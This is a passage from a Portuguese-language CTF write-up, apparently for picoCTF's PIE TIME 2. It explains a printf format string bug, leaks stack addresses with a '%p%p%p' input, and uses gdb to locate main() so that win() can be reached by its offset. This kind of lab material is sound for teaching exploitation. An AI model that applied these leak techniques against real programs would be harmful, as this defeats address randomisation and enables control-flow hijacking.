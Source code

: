 Inclusive, quando compilamos o código, um warning de segurança sobre isso é informado:

```
gcc -g vuln.c -o vuln
vuln.c: In function 'call_functions':
vuln.c:15:10: warning: format not a string literal and no format arguments [-Wformat-security] 
15 printf(buffer);
```

### Explorando o vazamento com format string

Podemos utilizar desse artifício para ver se tem algum valor armazenado na pilha que revela o endereço da função `win()`, que é o endereço que precisamos para fazer um `“jump”` e que revelará a flag.

Lembrando que a diferença entre o endereço da função main() e da win() é de 0x96, como já descrito no CTF do PIE TIME 1.

Se colocarmos `%p%p%p`, alguns endereços da pilha serão vazados:


```
Enter your name: %p%p%p 
0x25702570(nil)0x56160ab252a7
enter the address to jump to, ex => 0x12345:
```

Como o tamanho do buffer é de 64, podemos digitar esses caracteres diversas vezes…

### Debugando com GDB

Para facilitar a nossa vida, vamos utilizar o GNU Debugger, também conhecido como gdb. Ele serve para debugar programas em linguagens como C e C++, além de ser útil para analisar a memória do programa enquanto rodamos ele.

Podemos rodar os seguintes comandos:

```
gdb ./vuln # para rodar o binário com o gdb

break main # para marcar um ponto de parada na função main

run # para continuar a execução do programa

info address main # para saber o endereço de memória alocado para a função main
```

```
gdb ./vuln
GNU gdb (Ubuntu 9.2-0ubuntu1-20.04.2) 9.2
...
Reading symbols from ./vuln...
(gdb) break main
Breakpoint 1 at 0x1400: file vuln.c, line 50.
(gdb) run
Starting program: /home/gunote/picoCTF/vuln
Breakpoint 1, main () at vuln.c:50
50    int main() {
(gdb) info address main
Symbol "main" is a function at address 0x555555555400.
(gdb)
```
